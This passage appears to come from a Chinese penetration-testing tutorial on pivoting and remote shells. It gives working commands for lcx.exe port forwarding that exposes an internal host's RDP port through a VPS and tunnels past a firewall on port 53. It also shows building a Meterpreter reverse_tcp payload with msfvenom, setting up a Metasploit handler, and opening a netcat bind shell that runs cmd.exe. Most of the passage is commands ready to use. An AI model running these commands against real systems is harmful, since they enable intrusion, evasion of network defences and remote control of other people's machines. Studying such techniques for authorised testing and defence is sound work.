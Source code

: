 将内网主机的 3389 端口转发到公网主机 vps_ip 的 4444 端口。

公网主机运行：

```cmd
lcx.exe -listen 4444 5555
```

监听本地 4444 端口，并将来自 4444 端口的流量转发到 5555 端口。此时通过 vps_ip:5555 端口即可访问内网主机 3389 端口。

- **端口映射（tran）**

```
-tran <ConnectPort> <TransmitHost> <TransmitPort>
-tran <监听端口> <传送主机 IP> <传送主机端口> # 监听->目标主机端口
```

如把来自公网的 meterpreter 通过 VPS 转发到本地的 MSF （MSF 所在机器和 VPS 通过 VPN 内网通信）中，生成 payload 时指定 LHOST = VPS_IP, LPORT = 7777：

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=vps_ip LPORT=7777 -f exe -o ~/shell.exe
```

exploit 监听模块设置 lhost 为 MSF 所在机器的内网 IP 地址：

```sh
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set lhost MSF_lhost
msf exploit(handler) > set lport MSF_lport
msf exploit(handler) > exploit -j
```

VPS 执行： 

```
lcx -tran 7777 <MSF_lhost> <MSF_lport>
```

再比如由于防火墙限制，部分端口如 3389 无法通过防火墙，此时可以将该目标主机的 3389 端口映射到防火墙允许的其他端口，如 53 端口，目标主机上执行：

```
lcx -tran 53 <target_ip> 3389
```

此时目标主机将监听 53 端口，并将流量转发到目标主机的 3389 端口。再或者通过 Web 边界服务器将内网机器的指定端口映射到 Web 边界服务器的指定端口。

#### netcat 反弹 shell

**推荐工具：**[Reverse Shell CheatSheet](https://krober.biz/misc/reverse_shell.php)

- 正向连接（Client -> Server）

  远程主机上执行：

  ```cmd
  nc -l -p 4444 -t -e cmd.exe # 监听本地端口 4444，以 telnet 模式执行 cmd.exe
  ```

  本地主机上执行：

  ```cmd
  nc -vv 远程主机ip 4444
  ```
